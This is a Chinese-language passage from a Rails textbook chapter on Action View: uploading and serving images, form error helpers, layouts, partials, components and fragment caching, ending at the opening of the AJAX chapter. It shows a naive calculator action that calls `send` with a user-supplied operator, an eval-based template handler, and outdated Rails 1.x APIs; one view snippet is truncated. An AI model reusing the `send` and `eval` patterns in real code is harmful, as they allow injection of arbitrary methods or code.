我们定义了一个名为 `picture=()` 的访问器，它将接收表单参数。它将这个参数拆解以填充数据库中的列。表单返回的 `picture` 对象是一个有趣的混合体。它类似于文件，因此我们可以用 `read()` 方法读取其内容；这就是我们如何将图像数据放入 `data` 列的方式。它还具有 `content_type` 和 `original_filename` 属性，让我们可以获取上传文件的元数据。

注意，我们还添加了一个简单的验证来检查内容类型是否为 `image/xxx` 形式。我们不希望有人上传 JavaScript。

控制器中的 `save` 动作完全是常规的。

```ruby
Download e1/views/app/controllers/upload_controller.rb
def save
    @picture = Picture.new(params[:picture])
    if @picture.save
        redirect_to(:action => 'show', :id => @picture.id)
    else
        render(:action => :get)
    end
end
```

那么，现在我们数据库中有一张图片了，我们该如何显示它呢？一种方法是给它自己的 URL，然后只需从图像标签链接到该 URL。例如，我们可以使用像 `upload/picture/123` 这样的 URL 来返回 `picture 123` 的图像。这将使用 `send_data()` 将图像返回给浏览器。注意我们如何设置内容类型和文件名——这使得



图 19.5：上传文件

浏览器会解析数据，并在用户选择保存图像时为其提供一个默认名称。

```ruby
### Download e1/views/app/controllers/upload_controller.rb

def picture
  @picture = Picture.find(params[:id])
  send_data(@picture.data,
            :filename => @picture.name,
            :type => @picture.content_type,
            :disposition => "inline")
end
```

最后，我们可以实现 `show` 动作，用于显示评论和图像。该动作只需加载图片模型对象。

```ruby
### Download e1/views/app/controllers/upload_controller.rb

def show
  @picture = Picture.find(params[:id])
end
```

在模板中，`img` 标签链接回返回图片内容的动作。图 19.5 充分展示了 `get` 和 `show` 动作。

```html
<!-- Download e1/views/app/views/upload/show.html -->

<h3><%= @picture.comment %></h3>

 "picture", :id => @picture.id) %>"/>
```

你可以通过缓存 `picture` 动作来优化此技术的性能。

### 错误处理与模型对象

本章中我们看到的各种辅助部件都了解 Active Record 模型。它们可以从模型对象的属性中提取所需的数据，并且它们的参数命名方式使得模型能够从请求参数中提取它们。

这些辅助对象与模型交互的另一个重要方式是：它们了解每个模型中持有的 `errors` 结构，并会用它来标记未通过验证的属性。

当为模型中的每个字段构建 HTML 时，辅助方法会调用该模型的 `errors.on(field)` 方法。如果返回了任何错误，生成的 HTML 将被包裹在一个 `class="fieldWithErrors"` 的 `<div>` 标签中。如果你为页面应用了合适的样式表（我们在第 412 页说明了如何做），就可以高亮显示任何出错的字段。例如，以下 CSS 代码片段摘自脚手架自动生成代码使用的样式表，它会在验证失败的字段周围添加红色边框。

```css
.fieldWithErrors {
  padding:           2px;
  background-color: red;
  display:           table;
}
```

除了高亮显示错误字段外，你可能还希望显示错误消息的文本。Action View 为此提供了两个辅助方法。`error_message_on()` 返回与特定字段相关的错误文本。

```erb
<%= error_message_on(:product, :title) %>
```


脚手架生成的代码使用了不同的模式：它高亮显示错误字段，并在表单顶部显示一个单独的方框，显示表单中的所有错误。它通过`error_messages_for()`来实现这一点，该方法接受模型对象作为参数。

```erb
<%= error_messages_for(:product) %>
```

默认情况下，这会使用 CSS 样式`errorExplanation`；你可以从`scaffold.css`中借用其定义，编写自己的定义，或在生成的代码中覆盖该样式。

### 处理非模型字段

到目前为止，我们主要关注 Rails 中模型、控制器和视图之间的集成。但 Rails 也提供了对创建没有相应模型的字段的支持。这些辅助方法在`FormTagHelper`中有文档记录，它们都接受一个简单的字段名称，而不是模型对象和属性。当表单提交给控制器时，字段的内容将存储在`params`哈希中该名称下。这些非模型辅助方法的名称都以`_tag`结尾。

我们可以通过一个简单的计算器应用程序来说明这一点。它提示我们输入两个数字，让我们选择一个运算符，然后显示结果。



`app/views/test`中的文件`calculate.rhtml`使用`text_field_tag()`显示两个数字字段，并使用`select_tag()`显示运算符列表。请注意，我们必须使用`params`哈希中的当前值来初始化所有三个字段的默认值。我们还需要显示处理表单数据时在控制器中发现的任何错误列表，并显示计算结果。

```erb
<!-- Download el/views/app/views/test/calculate.rhtml -->

<% if @errors && !@errors.empty? %>
  <ul>
    <% for error in @errors %>
      <li><p><%= error %></p></li>
    <% end %>
  </ul>
<% end %>

<%= form_tag(:action => :calculate) %>

<%= text_field_tag(:arg1, @params[:arg1], :size => 3) %>

<%= select_tag(:operator,
    options_for_select(%w{ + - * / }, @params[:operator])) %>

<%= text_field_tag(:arg2, @params[:arg2], :size => 3) %>

<%= end_form_tag %>

<strong><%= @result %></strong>
```

如果没有错误检查，控制器代码将非常简单。

```ruby
def calculate
  if request.post?
    @result = Float(params[:arg1]).send(params[:op], params[:arg2])
  end
end
```

然而，在没有错误检查的情况下运行网页是我们负担不起的奢侈，因此我们必须采用更长的版本。

```ruby
def calculate
  if request.post?
    @errors = []
    arg1 = convert_float(:arg1)
    arg2 = convert_float(:arg2)
    op   = convert_operator(:operator)

    if @errors.empty?
      begin
        @result = op.call(arg1, arg2)
      rescue Exception => err
        @result = err.message
      end
    end
  end
end

private

def convert_float(name)
  if params[name].blank?
    @errors << "#{name} missing"
  else
    begin
      Float(params[name])
    rescue Exception => err
      @errors << "#{name}: #{err.message}"
      nil
    end
  end
end

def convert_operator(name)
  case params[name]
  when "+" then proc {|a,b| a+b}
  when "-" then proc {|a,b| a-b}
  when "*" then proc {|a,b| a*b}
  when "/" then proc {|a,b| a/b}
  else
    @errors << "Missing or invalid operator"
    nil
  end
end
```

有趣的是，如果我们使用 Rails 模型对象，其中大部分这些样板代码都会消失，因为许多这类内务处理工作都是内置的。

## 19.9 布局和组件

到目前为止，本章我们一直将模板视为孤立的代码和 HTML 代码块。但 Rails 背后的驱动思想之一是遵循 DRY（不要重复自己）原则，消除重复的需要。然而，一般的网站存在大量重复：

- 许多页面共享相同的页头、页脚和侧边栏。
- 多个页面可能包含相同的渲染 HTML 片段（例如，博客网站可能在多个地方显示一篇文章）。
- 相同的功能可能出现在多个地方。许多网站都有一个标准的搜索组件或投票组件，出现在网站的大多数侧边栏中。

Rails 提供了布局、局部模板和组件，以减少这三种情况下的重复需要。

### 布局

Rails 允许你将页面渲染嵌套在其他渲染页面内部。通常，此功能用于将动作的内容放入标准的全站页面框架（标题、页脚和侧边栏）中。事实上，如果你一直在使用生成脚本来创建基于脚手架的应用程序，那么你一直都在使用这些布局。

当 Rails 响应控制器中渲染模板的请求时，它实际上会渲染两个模板。显然，它会渲染你要求的那个（或者，如果你没有显式渲染任何内容，则渲染以该动作命名的默认模板）。但 Rails 也会尝试查找并渲染一个布局模板（我们稍后会讨论它如何找到布局）。如果找到了布局，它会将特定动作的输出插入到布局生成的 HTML 中。

让我们看一个布局模板。

```html
<html>
  <head>
    <title>Form: <%= controller.action_name %></title>
    <%= stylesheet_link_tag 'scaffold' %>
  </head>
  <body>
    <%= @content_for_layout %>
  </body>
</html>
```

布局设置了一个标准的 HTML 页面，包含`head`和`body`部分。它使用当前动作名称作为页面标题，并包含一个 CSS 文件。在`body`中，有一个对实例变量`@content_for_layout`的引用。这就是神奇发生的地方。这个变量包含由正常渲染动作生成的内容。因此，如果动作包含：

```ruby
def my_action
  @msg = "Hello, World!"
end
```

并且`my_action.rhtml`模板包含：

```erb
<h1><%= @msg %></h1>
```

浏览器将看到以下 HTML：

```html
<html>
  <head>
    <title>Form: my_action</title>
    <link href="/stylesheets/scaffold.css" media="screen" rel="Stylesheet" type="text/css" />
  </head>
  <body>
    <h1>Hello, World!</h1>
  </body>
</html>
```

### 定位布局文件

正如你可能已经预料到的那样，Rails 在提供布局文件位置的默认值方面做得很好，但如果你需要不同的东西，可以覆盖这些默认值。

布局是特定于控制器的。如果当前请求由名为`store`的控制器处理，Rails 默认会在`app/views/layouts`目录中查找名为`store`的布局（带有通常的`.rhtml`或`.rxl`扩展名）。如果你在`layouts`目录中创建了一个名为`application`的布局，它将应用于所有没有为其定义布局的控制器。

你可以通过在控制器内使用布局声明来覆盖这一默认设置。最简单的声明形式是将布局名称作为字符串传递。下面的声明将使`standard.rhtml`或`standard.rxhtml`文件中的模板成为`Store`控制器所有动作的布局。布局文件将在`app/views/layouts`目录中查找。

```ruby
class StoreController < ApplicationController
  layout "standard"
  # ...
end
```

你可以使用`:only`和`:except`限定符来指定哪些动作将应用该布局。

```ruby
class StoreController < ApplicationController
  layout "standard", :except => [ :rss, :atom ]
  # ...
end
```

将布局指定为`nil`会为该控制器禁用布局。

有时你需要在运行时改变一组页面的外观。例如，一个博客网站可能会在用户登录后提供一个外观不同的侧边菜单，或者一个商店网站在维护期间可能会显示不同样式的页面。Rails 通过动态布局来支持这一需求。如果布局声明的参数是一个符号，它将被视为一个控制器实例方法的名称，该方法返回要使用的布局名称。

```ruby
class StoreController < ApplicationController
  layout :determine_layout

  # ...

  private

  def determine_layout
    if Store.is_closed?
      "store_down"
    else
      "standard"
    end
  end
end
```

控制器的子类将使用父类的布局，除非它们通过`layout`指令覆盖了它。

最后，单个动作可以通过向`render()`传递`:layout`选项，选择使用特定布局（或根本不使用任何布局）进行渲染。

```ruby
def rss
  render(:layout => false)   # 从不使用布局
end
```

```ruby
def checkout
  render(:layout => "layouts/simple")
end
```

### 向布局传递数据

布局可以访问与常规模板相同的所有数据。此外，在常规模板中设置的任何实例变量在布局中也是可用的。这可以用来参数化布局中的标题或菜单。例如，布局可能包含：

```html
<html>
  <head>
    <title><%= @title %></title>
    <%= stylesheet_link_tag 'scaffold' %>
  </head>
  <body>
    <h1><%= @title %></h1>
    <%= @content_for_layout %>
  </body>
</html>
```

单个模板可以通过为`@title`变量赋值来设置标题。

```erb
<% @title = "My Wonderful Life" %>
<p>
  Dear Diary:
</p>
<p>
  Yesterday I had pizza for dinner. It was nice.
</p>
```

### 局部页面模板

Web 应用程序通常会在多个页面上显示关于同一应用程序对象的信息。一个购物车可能会在购物车页面上显示一个订单行项目，然后在订单摘要页面上再次显示。一个博客应用程序可能会在主页索引上显示文章内容，然后在征求评论的页面顶部再次显示。通常，这涉及在不同模板页面之间复制代码片段。

然而，Rails 通过*局部页面模板*机制（更常称为*partials*）消除了这种重复。你可以将局部模板视为一种子程序：你可以从另一个模板中调用它一次或多次，可能会传递对象作为参数进行渲染。当局部模板完成渲染后，它会将控制权返回给调用它的模板。

从内部看，局部模板与任何其他模板一样。从外部看，有一个细微的区别。包含模板代码的文件名必须以下划线字符开头，以区别于局部模板与其更完整的“兄弟姐妹”的来源。

例如，用于渲染博客文章的局部模板可能存储在常规视图目录`app/views/blog`中的文件`_article.rhtml`中。

```html
<div class="article">
  <div class="articleheader">
    <h3><%= article.title %></h3>
  </div>
  <div class="articlebody">
    <%= h(article.body) %>
  </div>
</div>
```

其他模板使用`render(:partial=>)`方法来调用它。

```erb
<%= render(:partial => "article", :object => @an_article) %>
<h3>Add Comment</h3>
. . .
```

传递给`render()`的`:partial`参数是要渲染的模板的名称（但没有开头的下划线）。此名称必须同时是有效的文件名和有效的 Ruby 标识符（因此`a-b`和`20042501`对于局部模板来说不是有效的名称）。`:object`参数标识要传递给局部模板的对象。该对象将在模板内通过一个与模板同名的局部变量使用。在这个例子中，`@an_article`对象将被传递给模板，模板可以使用局部变量`article`来访问它。这就是为什么我们可以在局部模板中编写诸如`article.title`之类代码的原因。

> 在 2005 年 6 月之前，局部模板的渲染是通过`render_partial()`方法完成的。你仍然会在代码示例中看到它。（实际上，scaffold 代码仍然使用它来生成编辑和添加模板。）该方法仍然受支持，但已被弃用。

习惯上，Rails 开发人员会使用一个与模板同名的变量（在此例中为`article`）。事实上，通常更进一步。如果传递给局部模板的对象位于与局部模板同名的控制器实例变量中，你可以省略`:object`参数。如果在前面的例子中，我们的控制器已经在实例变量`@article`中设置了文章，那么视图可以只用以下代码渲染局部模板：

```erb
<%= render(:partial => "article") %>
```

```erb
<h3>Add Comment</h3>
```

```erb
. . .
```

你可以通过向`render()`传递一个`:locals`参数在模板中设置额外的局部变量。该参数接受一个哈希，其中的条目表示要设置的局部变量的名称和值。

```ruby
render(:partial => 'article',
       :object   => @an_article,
       :locals   => { :authorized_by => session[:user_name],
                      :from_ip       => @request.remote_ip })
```

### 局部模板与集合

应用程序通常需要显示格式化条目的集合。博客可能会显示一系列文章，每篇都包含文本、作者、日期等。商店可能会显示目录中的条目，每个条目都有图片、描述和价格。

传递给`render()`的`:collection`参数可以与`:partial`参数结合使用。`:partial`参数让我们使用一个局部模板来定义单个条目的格式，而`:collection`参数将此模板应用于集合的每个成员。要使用我们之前定义的`_article.rhtml`局部模板来显示文章模型对象的列表，我们可以编写：

```erb
<%= render(:partial => "article", :collection => @article_list) %>
```

在局部模板内部，局部变量`article`将被设置为集合中的当前文章——该变量以模板命名。此外，变量`article_counter`将被设置为当前文章在集合中的索引。

可选的`:spacer_template`参数允许你指定一个模板，该模板将在集合中的每个元素之间渲染。例如，一个视图可能包含：

```erb
<%= render(:partial => "animal",
           :collection => %w{ ant bee cat dog elk },
           :spacer_template => "spacer") %>
```

这将使用`_animal.rhtml`来渲染给定列表中的每个动物，并在每个动物之间渲染`_spacer.rhtml`。如果`_animal.rhtml`包含：

```html
<p>The animal is <%= animal %></p>
```

而`_spacer.rhtml`包含：

```html
<hr />
```

你的用户将看到一个动物名称列表，每个名称之间有一条分隔线。

### 共享局部页面模板


如果传递给`render`方法的`:partial`参数是一个简单名称，Rails会假设目标模板位于当前控制器的视图目录中。然而，如果名称包含一个或多个`/`字符，Rails会假设最后一个斜杠之前的部分是目录名，其余部分是模板名。该目录假定位于`app/views`下。这使得跨控制器共享局部模板变得容易。

Rails应用程序中的惯例是将这些共享的局部模板存储在`app/views`的一个名为`shared`的子目录中。这些可以使用如下代码进行渲染：

```erb
<%= render(:partial => "shared/post", :object => @article) %>
```

在前面的例子中，`@article`对象将被分配给模板内的局部变量`post`。

## 局部模板与控制器

不仅仅是视图模板使用局部模板。控制器也参与其中。局部模板使控制器能够使用与视图本身相同的局部模板生成页面的片段。当你使用AJAX支持从控制器仅更新页面的某一部分时，这一点尤其重要——使用局部模板，你就知道你正在更新的表格行或行项目的格式将与最初生成其“兄弟”时使用的格式兼容。我们将在第20章《Web, V2.0》（第451页）讨论局部模板与AJAX的结合使用。

## 组件

局部视图（Partials）允许我们在多个视图之间共享视图代码片段。但如果我们想同时共享视图和该视图背后的部分逻辑呢？

组件（Components）使我们能够从视图或另一个动作中调用动作。该动作的逻辑将被执行，其结果将被渲染。这些结果可以插入到当前动作的输出中。

例如，我们的商店应用可能希望在每个页面的侧边栏中显示购物车内容的摘要。一种实现方式是，让每个动作都加载填充摘要所需的信息，并将其交给布局来插入摘要。然而，这意味着每个动作都必须复制关于全局视图的知识——这明显违反了DRY（Don't Repeat Yourself）原则。另一种选择是在控制器中使用钩子方法，将购物车内容添加到传递给每个模板的上下文中。这是一个巧妙的技巧，但它再次引入了我们不希望看到的控制器与视图之间更多的耦合。

一种更好的方法是让模板代码决定它想要显示什么，并在必要时让控制器动作生成该数据。这正是组件的用途。让我们来看一下我们商店可能的一个布局模板的一部分。

```html
<div id="side">
  <a class="side" href="http://www. . . .com">Home</a><br />
  <a class="side" href="http://www. . . .com/faq">Questions</a><br />
</div>
<div id="cartsummary">
  <%= render_component(:controller => 'store', :action => 'cart_summary') %>
</div>
```

该模板请求一个控制器（在本例中是`StoreController`）执行其`cart_summary`动作。生成的HTML将在这一点插入到整体布局中。

这里有一个潜在的陷阱：如果`cart_summary`使用同一个模板进行渲染，我们将陷入无限递归。您会希望将用于渲染组件的动作排除在布局处理之外，可以通过使用以下方式：

```ruby
layout "xxx", :except => :cart_summary
```

或者在创建组件的动作方法中调用`render(:layout=>false,...)`。

## 控制器中的组件

有时，应用程序需要将一个动作的处理直接嵌入到另一个动作中。这可能是因为一个动作决定将处理委托给另一个独立的动作，或者因为一个动作需要利用另一个动作的输出。

控制器方法`render_component()`允许一个动作执行一些工作，然后将控制权交给另一个动作（可能位于另一个控制器中）。一旦被调用，第二个动作通常会进行渲染。

作为替代方案，`render_component_as_string()`调用第二个动作，但将渲染后的文本作为字符串返回，而不是将其发送到浏览器。这允许原始动作执行自己的渲染。

这种渲染方式的一个潜在用途是构建一个包含不同类型条目（链接、日历、投票等）的侧边栏。每个条目都将有自己基于组件的渲染，而整体应用控制器将侧边栏内容组装成一个字符串数组，传递给布局进行显示。

## 组件化组件

组件只不过是从另一个动作调用的一个动作。然而，随着时间的推移，您可能会发现希望在不同的应用程序之间共享组件。在这种情况下，将它们从主应用程序代码中分离出来是有意义的。

您可能已经注意到，当使用`rails`命令创建应用程序目录树时，顶层有一个名为`components`的目录，与`app`和`config`并列。这就是独立组件应该存储的地方。最终，目的是您能够找到可以插入应用程序的组件，并简单地将它们添加到此目录中。为了探索这种组件样式，让我们编写一个创建链接列表的组件，这可能用于网站的侧边栏。

每个组件在顶层`components`目录中都有自己的目录。控制器和模型文件位于该目录中，而视图文件位于以控制器命名的子目录中。下一页的图**19.6**显示了我们将编写的链接组件的文件和目录。

下面的代码片段展示了我们打算如何使用侧边栏组件。请注意，`render_component()`调用包括目录路径（`sidebar`）以及控制器的名称。

```html
<div class="sidebar">
  <%= render_component(:controller => 'sidebar/link',
                       :action     => 'get_links') %>
</div>

<h1>Welcome to my blog!</h1>

<p>
  Last night I had pizza. It was very good. I also watched
  some television. I like the pretty colors.
</p>
```

组件的控制器位于`sidebar`目录中的`link_controller.rb`文件中。

```ruby
class Sidebar::LinkController < ActionController::Base

  uses_component_template_root

  Link = Struct.new(:name, :url)

  def self.find(*ignored)
    [ Link.new("pragdave", "http://blogs.pragprog.com/pragdave"),
      Link.new("automation", "http://pragmaticautomation.com") ]
  end

  def get_links
    @links = self.class.find(:all)
    render(:layout => false)
  end

end
```

它与其他Rails控制器有两个小差异。首先，类必须定义在以包含控制器的目录命名的模块内。在我们的情况下，这意味着控制器类名必须使用`Sidebar::`进行限定。Rails这样做是为了预期第三方组件的可用性；通过将每个组件保持在自己的模块中，减少了名称冲突的机会。

组件控制器还必须包含声明：

```ruby
uses_component_template_root
```

这告诉Rails在`components`目录下而不是在`app/views`中查找模板文件。

最后，我们需要组件的布局。它位于组件的`link`子目录中的`get_links`文件中。

```html
<div class="links">
  <ul>
    <% for link in @links -%>
      <li><p><%= link_to(link.name, link.url) %></p></li>
    <%end -%>
  </ul>
</div>
```

如果一个伙伴决定他们喜欢你的链接组件（他们怎么会不喜欢呢？），你可以简单地压缩（zip或tar）`sidebar`目录并发送给他们，以便安装在他们的应用程序中。

## 19.10 缓存，第二部分

我们从第390页开始查看了Action Controller的页面缓存支持。我们说过Rails还允许您缓存页面的部分内容。这在动态网站中被证明非常有用。也许您的博客应用程序为每个单独的用户定制了问候语和侧边栏。在这种情况下，您无法使用页面缓存，因为整体页面在不同用户之间是不同的。但是，由于文章列表在不同用户之间不变，您可以使用片段缓存（fragment caching）。您可以只构建一次显示文章的HTML，并将其包含在交付给各个用户的定制页面中。

为了说明片段缓存，让我们设置一个模拟的博客应用程序。这是控制器。它设置了`@dynamic_content`，代表每次查看页面时都应改变的内容。对于我们的模拟博客，我们使用当前时间作为此内容。

```ruby
class BlogController < ApplicationController

    def list
        @dynamic_content = Time.now.to_s
    end

end
```

这是我们模拟的Article类。它模拟了一个在正常情况下会从数据库获取文章的模型类。我们安排列表中的第一篇文章显示其创建的时间。

```ruby
class Article
    attr_reader :body

    def initialize(body)
        @body = body
    end

    def self.find_recent
        [ new("It is now #{Time.now.to_s}"),
          new("Today I had pizza"),
          new("Yesterday I watched Spongebob"),
          new("Did nothing on Saturday") ]
    end
end
```

现在我们想设置一个模板，该模板使用渲染后文章的缓存版本，但仍然更新动态数据。结果证明这很简单。

```erb
<%= @dynamic_content %>    <!-- Here's dynamic content. -->

<% cache do %>               <!-- Here's the content we cache -->
    <ul>
        <% for article in Article.find_recent -%>
            <li><p><%= h(article.body) %></p></li>
        <% end -%>
    </ul>
<% end %>                    <!-- End of cached content -->

<%= @dynamic_content %>    <!-- More dynamic content. -->
```

神奇之处在于`cache()`方法。与其关联的块中生成的所有内容都将被缓存。下次运行该动作时，将使用该块的缓存版本而不是动态内容。

### 使用缓存与非缓存数据刷新页面

通过此方法生成的数据将被缓存。下次访问该页面时，动态内容仍会被渲染，但块内的内容将直接从缓存中获取——不会重新生成。我们可以通过启动基础应用程序并在几秒后点击刷新来验证这一点，如图19.7所示。页面顶部和底部的动态数据部分在刷新时发生了变化。然而，中间部分的时间保持不变：它来自缓存。（如果您在本地尝试时发现三个时间字符串都发生了变化，很可能是因为您的应用运行在开发模式下。默认情况下，缓存仅在生产模式下启用。如果使用WEBrick进行测试，使用`-e production`选项即可生效。）

这里的概念是，被缓存的内容是在视图中生成的片段。如果我们先在控制器中构建文章列表，然后传递给视图，那么后续访问页面时虽然不必重新渲染列表，但每次请求仍会访问数据库。将数据库请求移入视图意味着一旦输出被缓存，该请求就不会再被调用。

您可能会说，这破坏了将应用层代码放入视图模板的规则。我们能否避免这一点呢？可以，但这意味着缓存会变得不那么透明。技巧在于让操作（action）检测是否存在缓存片段。如果存在，操作将跳过昂贵的数据库操作，因为知道片段将被使用。

```ruby
class Blog1Controller < ApplicationController

  def list
    @dynamic_content = Time.now.to_s
    unless read_fragment(:action => 'list')
      logger.info("Creating fragment")
      @articles = Article.find_recent
    end
  end

end
```

该操作使用`read_fragment()`方法来检查是否存在对应此操作的片段。如果不存在，则从（模拟的）数据库中加载文章列表。然后视图使用此列表来创建片段。

```erb
<%= @dynamic_content %> <!-- 这是动态内容 -->

<% cache do %>           <!-- 这是我们要缓存的内容 -->
  <ul>
    <% for article in @articles -%>
      <li><p><%= h(article.body) %></p></li>
    <% end -%>
  </ul>
<% end %>                 <!-- 缓存内容结束 -->

<%= @dynamic_content %> <!-- 更多动态内容 -->
```

### 过期缓存片段

现在我们有了文章列表的缓存版本，只要引用此页面，我们的Rails应用就会持续提供缓存内容。但是，如果文章更新了，缓存版本就会过期。我们通过`expire_fragment()`方法来处理。默认情况下，片段使用渲染页面的控制器和操作的名称进行缓存（在我们第一个例子中是`blog`和`list`）。要使片段过期（例如，当文章列表更改时），控制器可以调用：

```ruby
expire_fragment(:controller => 'blog', :action => 'list')
```

显然，此命名方案仅适用于页面上只有一个片段的情况。幸运的是，如果需要更多片段，可以通过向`cache()`方法添加参数（使用`url_for()`的约定）来覆盖与片段关联的名称。

```erb
<% cache(:action => 'list', :part => 'articles') do %>
  <ul>
    <% for article in @articles -%>
      <li><p><%= h(article.body) %></p></li>
    <% end -%>
  </ul>
<% end %>

<% cache(:action => 'list', :part => 'counts') do %>
  <p>
    文章总数：<%= @article_count %> 篇。
  </p>
<% end %>
```

在此示例中，缓存了两个片段。第一个片段使用额外的`:part`参数（值为`articles`）保存，第二个则使用`counts`。

在控制器内，我们可以将相同的参数传递给`expire_fragment()`来删除特定片段。例如，当我们编辑一篇文章时，需要使文章列表片段过期，但计数仍然有效。如果我们删除一篇文章，则需要使两个片段都过期。控制器如下所示（其中没有实际操作文章的代码——只需关注缓存部分）。

```ruby
class Blog2Controller < ApplicationController

  def list
    @dynamic_content = Time.now.to_s
    @articles = Article.find_recent
    @article_count    = @articles.size
  end

  def edit
    # 执行文章编辑操作
    expire_fragment(:action => 'list', :part => 'articles')
    redirect_to(:action => 'list')
  end

  def delete
    # 执行删除操作
    expire_fragment(:action => 'list', :part => 'articles')
    expire_fragment(:action => 'list', :part => 'counts')
    redirect_to(:action => 'list')
  end
end
```

`expire_fragment()`方法也可以接受单个正则表达式作为参数，允许我们使名称匹配的所有片段过期。

```ruby
expire_fragment(%r{/blog2/list.*})
```

### 片段缓存存储选项

与会话（sessions）一样，Rails在存储片段方面有多种选择。同样，与会话一样，缓存机制的选择可以推迟到应用接近（或处于）部署阶段。事实上，我们将把大部分缓存策略的讨论推迟到*部署与扩展*章节。

存储机制在环境文件中通过以下方式设置：

```ruby
ActionController::Base.fragment_cache_store = <以下选项之一>
```

可用的缓存存储机制包括：

- `ActionController::Caching::Fragments::MemoryStore.new`：将页面片段保留在内存中。这不是一个特别可扩展的解决方案。


- `ActionController::Caching::Fragments::FileStore.new(path)`：将缓存的片段保存在目录`path`中。
- `ActionController::Caching::Fragments::DRbStore.new(url)`：将缓存的片段存储在外部 DRb 服务器中。
- `ActionController::Caching::Fragments::MemCachedStore.new(host)`：将片段存储在 memcached 服务器中。

### 添加新的模板系统

在本章开头我们解释了 Rails 自带两种模板系统，但添加自己的模板系统也很容易。这是更高级的内容，您可以安全地跳到下一章开头，而不会失去 Rails 的学习成果。

模板处理器（template handler）是一个简单的类，满足两个标准：

- 其构造函数必须接受一个参数，即视图对象。
- 它实现了一个`render()`方法，该方法接受模板文本和一个局部变量值的哈希表，并返回该模板的渲染结果。

让我们从一个简单的模板开始。RDoc 系统用于从 Ruby 注释生成文档，它包含一个格式化器，该格式化器接受一个相当直接的纯文本布局并将其转换为 HTML。我们将用它来格式化模板页面。我们将使用`.rdoc`文件扩展名创建这些模板。

模板处理器是一个简单的类，包含前面描述的两个方法。我们将其放在`lib`目录下的`rdoc_template.rb`文件中。

```ruby
require 'rdoc/markup/simple_markup'
require 'rdoc/markup/simple_markup/inline'
require 'rdoc/markup/simple_markup/to_html'

class RDocTemplate

  def initialize(view)
    @view = view
  end

  def render(template, assigns)
    markup    = SM::SimpleMarkup.new
    generator = SM::ToHtml.new
    markup.convert(template, generator)
  end
end
```

现在我们需要注册这个处理器。这可以放在您的环境文件中，或者可以在`app/controllers`目录下的`application.rb`中设置。

```ruby
require "rdoc_template"

ActionView::Base.register_template_handler("rdoc", RDocTemplate)
```

注册调用表明，任何名称以`.rdoc`结尾的模板文件都将由`RDocTemplate`类处理。我们可以通过创建一个名为`example.rdoc`的模板并通过新生成的测试控制器访问它来测试这一点。

### RDocTemplate



### 创建动态模板

`rhtml`和`rxml`模板与控制器共享环境——它们可以访问控制器实例变量。如果它们作为局部模板（partial）被调用，还可以接收局部变量。我们可以赋予自己的模板相同的权限。具体实现方式取决于你希望模板执行的功能。这里我们将构建一个相当人为示例：一个包含 Ruby 代码行的 revol 模板。渲染时，每一行代码都会与其执行结果一同显示。因此，如果一个名为`test.revol`的模板包含：

```
a = 1
3 + a
@request.path
```

我们期望看到的输出是：

```
a = 1  => 1
3 + a  => 4
@request.path => /text/example1
```

注意模板如何访问`@request`变量。我们通过创建 Ruby 绑定（本质上是一个变量作用域），并填充由控制器设置到视图中的实例变量和局部变量的值，来实现这个魔法。注意，渲染器还将响应内容类型设置为`text/plain`；我们不希望结果被解释为 HTML。我们也可以定义一个名为`request()`的访问器方法，这会使我们的模板处理器更像 Rails 内置的那些。

下载`e1/views/lib/eval_template.rb`：

```ruby
class EvalTemplate
  def initialize(view)
    @view = view
  end

  def render(template, assigns)
    # create an anonymous object and get its binding
    env  = Object.new.send(:binding)
    bind = env.send(:binding)

    # Add in the instance variables from the view
    @view.assigns.each do |key, value|
      env.instance_variable_set("@#{key}", value)
    end

    # and local variables if we're a partial
    assigns.each do |key, value|
      eval("#{key} = #{value}", bind)
    end

    @view.controller.headers["Content-Type"] ||= 'text/plain'

    # evaluate each line and show the original alongside
    # its value
    template.split(/\n/).map do |line|
      line + " => " + eval(line, bind).to_s
    end.join("\n")
  end
end
```

本章由托马斯·富克斯（Thomas Fuchs）撰写，他是来自奥地利维也纳的软件架构师。自 1996 年以来，他一直致力于 Web 应用程序开发。他贡献了自动完成文本框，构思了大部分视觉效果，并为带有进度信息的文件上传扩展奠定了基础。

## 第 20 章

# Web，V2.0

自 Web 诞生之日起，有两件事一直困扰着应用程序开发者：

- HTTP 连接的无状态性。
- 我们无法在页面视图之间调用服务器。

通过使用 cookie 识别用户以及拥有服务器存储的会话，无状态带来的问题很快得到了解决。Rails 为此提供了会话对象。

第二个问题就没那么容易解决了。`<frameset>`和`<frame>`标签是一个部分解决方案，但其弊端几乎让许多 Web 开发者抓狂。有人发明了`<iframe>`，但它也没有解决问题。

在一个 OpenGL 加速的图形用户界面主宰桌面的时代，大多数 Web 应用程序看起来就像是运行在 1960 年代的傻瓜终端上。

好了，这一切现在都结束了。瘟疫已经散去。

*欢迎来到 Web，版本 2.0。*

## 20.1 AJAX 简介

AJAX（*Asynchronous JavaScript and XML*的缩写）¹是一种技术，它扩展了传统的 Web 应用程序模型，允许在页面内部进行服务器请求。

> ¹ 该术语由 Adaptive Path 首创。更多信息，请参见 Jesse James Garrett 的文章：http://www.adaptivepath.com/publications/essays/archives/000385.php。

